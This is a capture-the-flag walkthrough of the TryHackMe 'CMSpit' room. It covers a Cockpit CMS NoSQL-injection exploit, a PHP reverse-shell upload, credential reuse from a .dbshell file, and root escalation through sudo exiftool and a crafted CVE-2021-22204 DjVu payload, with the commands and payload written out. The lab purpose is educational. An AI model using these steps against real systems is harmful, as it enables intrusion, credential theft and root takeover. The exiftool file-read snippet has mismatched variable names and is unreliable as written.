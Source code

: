 Room: [CMSpit](https://tryhackme.com/room/cmspit)

Difficulty: Medium

Overview: In this room we are going to exploit a NoSQL injection vulnerability on CMS concrete5 webserver, privesc horizontaly and then verticaly taking advantage of a fresh exploit for a tool called Exiftool.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------

Let's start our enumeration fase with "nmap" and search for all open ports on the target system:

```
nmap -sV -sC -p- cmspit.thm -oN nmap.txt

-sV    →  Probe open ports to determine service
-sC    →  Scan using the default set of scripts
-p-    →  Scan all ports
-oN    →  Save the ouput of the scan in a file
```

![image](https://user-images.githubusercontent.com/76821053/130663300-0daf3ea7-10d5-4683-a33b-c5c7f9926436.png)

There are only two open ports:

22  →  OpenSSH 7.2p2

80  →  Apache httpd 2.4.18

After visiting the webpage i was redirected to a login portal:

![image](https://user-images.githubusercontent.com/76821053/130663322-4f143cb8-3435-45e4-88ba-50a7688e3115.png)

To better analyze the webserver we can use “nikto” which performs comprehensive scan tests against web servers:

```
nikto -h http://cmspit.thm
```

![image](https://user-images.githubusercontent.com/76821053/130663353-a2ccd257-07b3-4d01-8ecb-0dc3e8006878.png)

We found a file that contains usefull information:

![image](https://user-images.githubusercontent.com/76821053/130663377-8f4148cd-2a5b-4c3f-bd21-643e16fe622a.png)

Now that we have information about the content management system, its name and version. We can search [exploit-db](https://www.exploit-db.com/) for a possible exploit:

![image](https://user-images.githubusercontent.com/76821053/130663403-9d54e3c6-a765-4daf-a9b4-08c50504ec5f.png)

There is a exploit with a CVE number of CVE-2020-35846. This exploit takes advantage of NoSQL injection in /auth/check path which will let us do some username enumeration and password reset. You can find more information about this exploit at [PT SWARM webpage](https://swarm.ptsecurity.com/rce-cockpit-cms/). They have a brake down of this exploit in detail. 

So to automate this process we are going to use the exploit script that we found at exploit-db, this exploit is a combination of CVE-2020-35847 and CVE-2020-35848:

```
python3 cockpit_exploit.py -u http://cmspit.thm
```

![image](https://user-images.githubusercontent.com/76821053/130663470-7bb60910-680e-4aec-9bd0-68d46564bd08.png)

This exploits found all the users in the database. If we want to find the email address of "skidy" we can just rerun the exploit and choose a diferent username:

![image](https://user-images.githubusercontent.com/76821053/130663496-d0b3c798-24e7-4640-abf4-d8b03f6727a4.png)

Now we can login to the webserver with the newly created “admin” credentials:

![image](https://user-images.githubusercontent.com/76821053/130663516-5053baa8-cd6f-4d15-806a-2512f7f42c54.png)

After browsing the admin dashboard there is an option to upload files to the webserver, so we are going to upload a php payload to get a reverse shell connection.

The php payload that i like to use is from “pentestmonkey”, you can download it from his [github page](https://github.com/pentestmonkey/php-reverse-shell).

Change this two parameters, ip and port to match your own:

![image](https://user-images.githubusercontent.com/76821053/130663540-5c05d719-94e6-439a-b53f-206f262673c0.png)

To upload the shell. From the dashboard choose “Finder”:

![image](https://user-images.githubusercontent.com/76821053/130663563-b91138cc-6ab9-4009-9767-cbc01e77e4c8.png)

And upload the payload to, for example "install" directory:

![image](https://user-images.githubusercontent.com/76821053/130663586-83207272-723b-47fb-a639-d2d48cf71e96.png)

To trigger the payload we just need to go to the correct url path:

```
http://ip_of_room/install/php-reverse-shell.php
```

![image](https://user-images.githubusercontent.com/76821053/130663629-5503c09d-f36f-4308-b871-2495679f7ce4.png)

And in our listener we will receive a shell:

![image](https://user-images.githubusercontent.com/76821053/130663675-ad2eea14-f9e1-47cd-8488-6e7bfaaccc6f.png)

To upgrade our shell to a tty one we can use this python command:

```
python3 -c "__import__('pty').spawn('/bin/bash')"
```

![image](https://user-images.githubusercontent.com/76821053/130663702-5dc9d078-ab92-4e14-8bd3-eb5f7131727e.png)

We can find the web flag at "/var/www/html/cockpit". Everytime we need to find a web related flag we should always start at the home of html path server:

![image](https://user-images.githubusercontent.com/76821053/130663729-dd85466a-fdd9-49f2-9132-45cbeb648058.png)

Enumerating the machine further we can escalate our privileges by checking user “stux” home directory:

![image](https://user-images.githubusercontent.com/76821053/130663754-dc274087-e2ce-4029-93c7-ffbd6ed376fc.png)

Inside his directory there is a database file called ".dbshell":

![image](https://user-images.githubusercontent.com/76821053/130663779-eb933f36-b75d-4d7b-bc93-6905a3e16ba9.png)

We have credentials for “stux” so let's login into that user:

```
su stux
```

![image](https://user-images.githubusercontent.com/76821053/130663805-9ec8f3dc-3051-4d67-ab83-c5983d2d3764.png)

With “stux” we can read the user flag:

![image](https://user-images.githubusercontent.com/76821053/130663832-2c8b4b5a-ace7-44f2-8235-22655cddf6dc.png)

Before going further we can change this shell to a ssh session:

![image](https://user-images.githubusercontent.com/76821053/130667323-dc32ad75-ef30-4996-a6d9-eab557ad013d.png)

Let's check his sudo permitions:

```
sudo -l
```

![image](https://user-images.githubusercontent.com/76821053/130667424-5ccad75a-8d3c-4826-8672-59aaac4b31f9.png)

“stux” can ran sudo on "exiftool" has user “root”. So let's head to [GTFOBins](https://gtfobins.github.io/gtfobins/exiftool/) and to see if there is any way we can exploit exiftool:

![image](https://user-images.githubusercontent.com/76821053/130663871-e38f081a-bb67-45b9-966e-72e01700391d.png)

Having sudo permissions to run exiftool we can easily read the root.txt flag if we follow GTFOBins read method:

```
LFILE=/root/root.txt
OUPUT=/home/stux/privesc
sudo exiftool -filename=$OUTPUT $FILE
cat $OUTPUT
```

![image](https://user-images.githubusercontent.com/76821053/130663893-48a725d2-e7b5-4477-9f3e-16078500ae52.png)

Now, if we want to escalate our privileges to “root” user we need to take advantage of a exiftool vulnerability.

This vulnerability has a CVE number of CVE-2021-22204:

![image](https://user-images.githubusercontent.com/76821053/130663938-2eca61ed-b152-4ccf-91da-e6ec19299961.png)

There is an awesome report on this bug in detail by [Convisoappsec](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/).

There you will learn how to exploit the system by taking advantage of a tool called “djvumake”:

![image](https://user-images.githubusercontent.com/76821053/130663950-83e3b5d6-f2ce-4c87-b56e-7792eeb7ebf0.png)

Let's follow the steps and reproduce this vulnerability:

First we need to create a payload and save it to a file:

```
(metadata “\c${system('/bin/bash -p')};”)
``` 

![image](https://user-images.githubusercontent.com/76821053/130663968-94c0b308-a329-407c-8464-645d172a41be.png)

Next we need to compress the payload, create a .djvu file and trigger the exploit with exiftool:

```
bzz payload payload.bzz

djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz

sudo exiftool exploit.djvu
```

![image](https://user-images.githubusercontent.com/76821053/130664000-ce9897db-e146-42f2-91f1-ecbd612c1ea6.png)

Success, we are now “root”!!!

We can access “root's” directory directly and read the root.txt file:

![image](https://user-images.githubusercontent.com/76821053/130664023-d82d961c-e580-4015-a5b0-a5df97ce2c63.png)
















